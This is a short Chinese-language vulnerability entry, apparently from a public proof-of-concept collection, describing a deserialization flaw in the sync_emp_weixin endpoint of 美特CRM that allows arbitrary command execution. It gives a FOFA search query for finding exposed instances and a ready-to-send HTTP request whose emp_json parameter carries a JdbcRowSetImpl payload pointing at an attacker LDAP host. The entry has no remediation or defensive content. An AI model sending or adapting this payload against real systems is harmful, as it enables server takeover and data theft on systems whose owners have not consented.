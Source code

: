 # 美特CRM系统接口sync_emp_weixin存在反序列化漏洞

美特CRM sync_emp_weixin存在反序列化漏洞，可被恶意攻击者利用执行任意命令，进而控制服务器系统。

## fofa

```
body="/common/scripts/basic.js"
```

## poc

```javascript
GET /weixin/admin/sync_emp_weixin.jsp?emp_json=[{%22@type%22:%22[com.sun.rowset.JdbcRowSetImpl%22[{,%22dataSourceName%22:%22ldap://vps%22,%22autoCommit%22:true}] HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection:close
```

![172b7391acfeadb4aaa11d4f2ca85f61](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062301856.jpg)

![f1bd297bb76c5e5fa0b587da24d15bd4](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062301906.jpg)

## 漏洞来源

- https://mp.weixin.qq.com/s/5t_w0ddXQslco6r0f9Rxgg
